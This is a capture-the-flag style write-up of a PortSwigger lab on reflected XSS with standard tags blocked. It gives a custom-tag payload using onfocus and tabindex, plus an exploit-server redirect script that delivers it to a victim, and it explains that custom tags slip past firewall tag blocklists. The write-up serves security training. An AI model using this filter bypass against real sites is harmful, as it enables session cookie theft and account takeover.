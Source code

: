 # XSS - Reflected XSS into HTML context with all tags blocked except custom ones

## 📌 Lab Details
- **Title**: Reflected XSS into HTML context with all tags blocked except custom ones
- **Difficulty**: Practitioner
- **Category**: Cross-site Scripting
- **Lab URL**: https://portswigger.net/academy/labs/launch/35d25a422af775cc93101fff0b686ae37e3ccb4844d3272061e090aa0c854ced?referrer=%2fweb-security%2fcross-site-scripting%2fcontexts%2flab-html-context-with-all-standard-tags-blocked

## 🔍 Summary
Custom HTML tags (like `<xss>`, `<abc>`) are non-standard elements that browsers still accept. In XSS labs, attackers use them to **bypass filters or firewalls** that block standard tags like `<script>` or `<img>`.

## 🛠 Steps to Solve
1. Creating a custom **tag** with `onfocus` : `<xss id=x onfocus=alert(document.cookie) tabindex=1>`.
2. Injecting the payload into the exploit server: `<script>
location = 'https://0a1c00ea04059a5c8197de1d00c30000.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>`.
3. Store the **exploit** and deliver it to the victim.
   
## 📖 Key Takeaways
- **Custom tags** in HTML are valid and don't throw errors.
- They are not blocked by many web application firewalls.
- You can **attach event handlers** (like `onfocus`,`onclick` etc.) to them.
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/004274b7-cb7c-416a-805f-6134d8711674)
![image](https://github.com/user-attachments/assets/8502141e-0308-4b03-9dd8-436edc94da29)
